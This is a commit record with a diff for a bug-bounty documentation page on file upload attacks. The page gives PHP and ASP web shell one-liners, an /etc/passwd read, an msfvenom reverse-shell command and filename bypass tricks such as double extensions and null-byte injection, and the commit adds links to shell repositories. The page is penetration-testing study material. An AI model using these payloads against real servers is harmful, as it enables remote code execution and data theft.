

Before and after one commit to variable190/BugBounty, an MkDocs documentation site: the page built from docs/bug-bounty-guide/file-upload-attacks.md, in a window 1280 px wide and 900 px high. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; some of the changed lines change nothing that is shown.

Commit message:
begin file upload attacks page

```diff
--- a/docs/bug-bounty-guide/file-upload-attacks.md
+++ b/docs/bug-bounty-guide/file-upload-attacks.md
@@ -1,6 +1,11 @@
 # File Upload Attacks
 
+**Tip:** Find what language runs the web app by fuzzing the extention of the index page for common file types (/index.FUZZ).
+
+[Wappalyzer](https://www.wappalyzer.com/) can also be used to detect what languages and othertechnologies are used.
+
 ## Web Shells
+
 | Web Shell | Description |
 |-----------|-------------|
 | `<?php echo file_get_contents('/etc/passwd'); ?>` | Basic PHP File Read |
@@ -8,11 +13,12 @@
 | `<?php system($_REQUEST['cmd']); ?>` | Basic PHP Web Shell |
 | `<% eval request('cmd') %>` | Basic ASP Web Shell |
 | `msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php` | Generate PHP reverse shell |
-| PHP Web Shell | PHP Web Shell |
-| PHP Reverse Shell | PHP Reverse Shell |
-| Web/Reverse Shells | List of Web Shells and Reverse Shells |
+| [PHP Web Shell](https://github.com/Arrexel/phpbash) | PHP Web Shell |
+| [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell) | PHP Reverse Shell |
+| [Web/Reverse Shells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) | List of Web Shells and Reverse Shells |
 
 ## Bypasses
+
 | Command | Description |
 |---------|-------------|
 | **Client-Side Bypass** | |
@@ -20,18 +26,19 @@
 | **Blacklist Bypass** | |
 | `shell.phtml` | Uncommon Extension |
 | `shell.pHp` | Case Manipulation |
-| PHP Extensions | List of PHP Extensions |
-| ASP Extensions | List of ASP Extensions |
-| Web Extensions | List of Web Extensions |
+| [PHP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst) | List of PHP Extensions |
+| [ASP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP) | List of ASP Extensions |
+| [Web Extensions](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt) | List of Web Extensions |
 | **Whitelist Bypass** | |
 | `shell.jpg.php` | Double Extension |
 | `shell.php.jpg` | Reverse Double Extension |
 | `%20, %0a, %00, %0d0a, /, .\, ., …` | Character Injection - Before/After Extension |
 | **Content/Type Bypass** | |
-| Content-Types | List of All Content-Types |
-| File Signatures | List of File Signatures/Magic Bytes |
+| [Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt) | List of All Content-Types |
+| [File Signatures](https://en.wikipedia.org/wiki/List_of_file_signatures) | List of File Signatures/Magic Bytes |
 
 ## Limited Uploads
+
 | Potential Attack | File Types |
 |------------------|------------|
 | XSS | HTML, JS, SVG, GIF |
```
